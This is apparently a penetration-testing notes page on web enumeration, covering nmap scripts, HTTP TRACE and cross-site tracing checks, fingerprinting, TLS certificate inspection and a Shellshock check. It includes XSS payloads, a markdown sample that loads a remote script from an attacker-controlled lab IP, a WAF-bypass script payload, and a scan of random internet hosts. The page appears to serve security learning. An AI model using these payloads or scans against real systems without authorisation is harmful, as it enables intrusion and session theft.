 ```yaml
---
icon: arrows-to-eye
---
```


# Web Enumeration

<details>

<summary><mark style="color:red;"><strong><code>Check-List</code></strong></mark></summary>

* [ ] <mark style="color:purple;">Check</mark> <mark style="color:orange;">**`robots.txt`**</mark>
* [ ] <mark style="color:purple;">Check</mark> <mark style="color:orange;">**`.git`**</mark>
* [ ] <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">method</mark>
* [ ] <mark style="color:purple;">Force error messages</mark>

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Nmap</code></strong></mark> <mark style="color:purple;"><strong>Scripts</strong></mark></summary>

{% code title="Scan for config files" overflow="wrap" %}
```sh
nmap -n -p<PORT> --script http-config-backup <IP>
```
{% endcode %}

{% code title="Site map generator" overflow="wrap" %}
```sh
nmap -Pn -script=http-sitemap-generator scanme.nmap.org
```
{% endcode %}

{% code title="Stealthy Scan" overflow="wrap" %}
```sh
nmap -n -Pn -vv -O -sV --script=http-enum,http-headers,http-methods,http-title,http-vuln* 192.168.1.1
```
{% endcode %}

{% code title="fast scan" overflow="wrap" %}
```sh
nmap -n -Pn -p 80 -open -sV -vvv -script banner,http-title -iR 1000
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Forms</code></strong></mark></summary>



</details>

<details>

<summary><mark style="color:orange;"><strong><code>Markdown</code></strong></mark></summary>

* <mark style="color:purple;">Test for</mark> <mark style="color:orange;">**`XSS`**</mark> <mark style="color:purple;">,</mark> <mark style="color:orange;">**`HTML`**</mark> <mark style="color:purple;">injection and</mark> <mark style="color:orange;">**`JavaScript`**</mark> <mark style="color:purple;">execution:</mark>

{% code title="Malicious Md file" overflow="wrap" %}
```javascript
### local XSS
<img src=x onerror=alert(1) />

### load image
<img src="http://10.10.14.162:8000/image.png" />

### load script
<script src="http://10.10.14.162:8000/script.js"></script>

### Md
<img src='http://10.10.14.162:8000/test.md' />
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>TRACE</code></strong></mark> <mark style="color:purple;">Method</mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`Checking for Cross-Site Tracing (XST) – Bypassing HttpOnly Cookies`**</mark>

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled and the response reflects cookies, an attacker can bypass the</mark> <mark style="color:orange;">**`HttpOnly`**</mark> <mark style="color:purple;">flag</mark>.
* <mark style="color:purple;">Normally,</mark> <mark style="color:orange;">**`HttpOnly`**</mark>**&#x20;**<mark style="color:purple;">**prevents JavaScript from accessing cookies, but**</mark>**&#x20;**<mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**can leak them if not properly restricted.**</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com -H "Test: XST"
```
{% endcode %}

* <mark style="color:purple;">If the response includes the custom header,</mark> <mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**is enabled**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">If it leaks</mark> <mark style="color:orange;">**`Set-Cookie`**</mark> <mark style="color:purple;">headers, it’s</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**a serious security issue**</mark><mark style="color:purple;">.</mark>
* <mark style="color:orange;">**`Bug Bounty Impact`**</mark><mark style="color:purple;">**:**</mark> [<kbd><mark style="color:red;">**Session Hijacking**<mark style="color:red;"></kbd>](../vulnerabilities/session-hijacking.md)&#x20;
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Finding Internal Headers & Debug Info`**</mark>

<mark style="color:purple;">Some servers return</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**sensitive internal headers**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">when</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled, such as:</mark>

* <mark style="color:orange;">**`X-Forwarded-For`**</mark> <mark style="color:purple;">--> Real client IP leak.</mark>
* <mark style="color:orange;">**`X-Backend-Server`**</mark> <mark style="color:purple;">--> Internal server exposure.</mark>
* <mark style="color:orange;">**`Via`**</mark> <mark style="color:purple;">--> Reveals proxy setup.</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com
```
{% endcode %}

* <mark style="color:purple;">Look for unusual headers in the response.</mark>
* <mark style="color:orange;">**`Bug Bounty Impact`**</mark><mark style="color:purple;">**:**</mark> <mark style="color:red;">**`Information Disclosure`**</mark>
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Finding WAF / Security Device Bypasses`**</mark>

* <mark style="color:purple;">Some</mark> <mark style="color:orange;">**`WAFs`**</mark>**&#x20;**<mark style="color:purple;">**don’t inspect**</mark>**&#x20;**<mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**requests**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">properly.</mark>
* <mark style="color:purple;">You can use</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">to test</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**whether**</mark>**&#x20;**<mark style="color:orange;">**`WAF`**</mark>**&#x20;**<mark style="color:purple;">**protections apply to certain endpoints**</mark><mark style="color:purple;">.</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com/index.php --data "payload=<script>alert(1)</script>"
```
{% endcode %}

<mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">reflects the payload, but normal requests are blocked, the</mark> <mark style="color:orange;">**`WAF`**</mark> <mark style="color:purple;">**is bypassable**</mark><mark style="color:purple;">.</mark>
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Checking for Cross-Origin Attacks`**</mark>

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled, it might allow</mark> <mark style="color:red;">**`same-origin policy (SOP)`**</mark>**&#x20;**<mark style="color:purple;">**bypasses**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Some older browsers or misconfigured</mark> <mark style="color:orange;">**`CORS`**</mark> <mark style="color:purple;">setups can be exploited if</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">echoes requests cross-origin.</mark>
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Browser</strong></mark> <mark style="color:purple;"><strong>DevTools</strong></mark></summary>



{% hint style="info" %}
###

{% code title="Show devtools" %}
```
[CTRL+SHIFT+I] or [F12]
```
{% endcode %}

{% code title="Show Network tab" %}
```
[CTRL+SHIFT+E]
```
{% endcode %}

{% code title="Show Console tab" %}
```
[CTRL+SHIFT+K]
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Bypass</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>User-Agent</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>filtering</strong></mark></summary>

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`HTTPBin`**</mark>](https://httpbin.io/user-agent) <mark style="color:purple;">to check the</mark> <mark style="color:orange;">**`User-Agent`**</mark> <mark style="color:purple;">from any client.</mark>

- <mark style="color:purple;">Experiment with those</mark> <mark style="color:orange;">**`User-Agent`**</mark><mark style="color:purple;">**:**</mark>&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 Edg/123.0.2420.81
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 OPR/109.0.0.0
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 14.4; rv:124.0) Gecko/20100101 Firefox/124.0
Mozilla/5.0 (Macintosh; Intel Mac OS X 14_4_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Safari/605.1.15
Mozilla/5.0 (Macintosh; Intel Mac OS X 14_4_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 OPR/109.0.0.0
Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (X11; Linux i686; rv:124.0) Gecko/20100101 Firefox/124.0
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Website Fingerprinting</strong></mark></summary>

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`Wappalyzer`**</mark>](https://www.wappalyzer.com/)

- <mark style="color:purple;">Or in the command line:</mark>

```bash
whatweb -v 10.10.10.121
```

{% code title="Website banners" %}
```sh
curl -IL https://www.inlanefreight.com
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>SSL</code></strong></mark> <mark style="color:purple;"><strong>Certificates</strong></mark></summary>

* <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`openssl`**</mark> <mark style="color:purple;">to get the certificate's info:</mark>

{% code overflow="wrap" %}
```sh
echo | openssl s_client -showcerts -servername 10.10.10.124 -connect 10.10.10.124:443 2>/dev/null | openssl x509 -inform pem -noout -text
```
{% endcode %}

{% code title="Grep for subdomains" overflow="wrap" %}
```sh
echo | openssl s_client -showcerts -servername 10.10.10.124 -connect 10.10.10.124:443 2>/dev/null | openssl x509 -inform pem -noout -text | grep DNS | tr "," "\n" | cut -d: -f2
```
{% endcode %}

* <mark style="color:purple;">Create a custom wordlist with the subdomains to fuzz for response codes and gain a general idea of the content:</mark>

```sh
 ffuf -c -w domains -u https://FUZZ
```

* <mark style="color:purple;">When working with</mark> <mark style="color:orange;">**`HTTPS`**</mark> <mark style="color:purple;">is good practice to</mark> <mark style="color:purple;">validate the</mark> <mark style="color:orange;">**`SSL/TLS`**</mark> <mark style="color:purple;">version and ciphers in use:</mark>

{% code overflow="wrap" %}
```sh
openssl s_client -connect 10.10.10.124:443 -servername 10.10.10.124 -showcerts
```
{% endcode %}

* <mark style="color:purple;">You can follow up with the</mark> <mark style="color:orange;">**`-cipher`**</mark> <mark style="color:purple;">flag to specify the cipher suites you're interested in:</mark>

{% code overflow="wrap" %}
```sh
openssl s_client -connect 10.10.10.124:443 -servername 10.10.10.124 -cipher ECDHE-RSA-AES256-GCM-SHA384
```
{% endcode %}

* <mark style="color:purple;">Check if the server implements</mark> <mark style="color:orange;">**`HSTS`**</mark> <mark style="color:purple;">by looking for it's header</mark><mark style="color:purple;">**:**</mark>

```sh
curl -I https://10.10.10.124
```

</details>

<details>

<summary><mark style="color:purple;"><strong>Create Word-lists</strong></mark></summary>

{% code title="Use crunch" overflow="wrap" %}
```sh
crunch <min_length> <max_length> -t <pattern> -o <output_file>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>CGI</code></strong></mark> <mark style="color:purple;">Scripts</mark></summary>

{% code title="Shellshock Vulnerability Check" overflow="wrap" %}
```sh
sudo nmap --script http-shellshock --script-args uri=<URL_ARCHIVO_SH> -p80 <IP>
```
{% endcode %}

</details>

